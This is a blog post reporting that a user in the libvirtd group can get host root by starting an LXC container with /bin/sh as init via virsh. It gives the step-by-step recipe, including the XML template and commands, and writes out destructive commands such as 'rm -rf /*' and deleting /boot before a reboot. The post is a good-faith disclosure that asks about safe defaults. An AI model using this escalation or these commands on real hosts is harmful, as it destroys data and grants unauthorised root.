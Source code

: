 ```yaml
---
layout: post
title: Linux Container Madness
---
```


(...or How I Got Root in Less than 5 Minutes)

**Update**: This has nothing to do with Docker. My mistake - the concern is between LXC and Libvirt. Thanks to Wes Felter for pointing this out in the comments.

I'm unsure if this is actually a vulnerability or just a usability problem with the normal behaviour of [LXC](https://linuxcontainers.org/)/[Libvirt](https://libvirt.org/). Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system from an ordinary user account. I imagine new users of containers, like myself, should be more concerned about how safe these defaults really are.

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. In this case I am running Ubuntu 14.04.1. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the `libvirtd` group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. `LIBVIRT_DEFAULT_URI=lxc:///`), such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
user@host:~$ virsh start test
user@host:~$ virsh console test
{% endhighlight %}

And now try to run the **bash** shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. Without any prompt for a superuser password. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with LXC? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. It would be a shame if such obscure semantics will let down the overall usability of the platform.

Thoughts are welcomed. Especially from LXC magicians - what are the semantics behind this configuration file? Privileges by default? My user had no superuser access...I expect them to remain that way. 

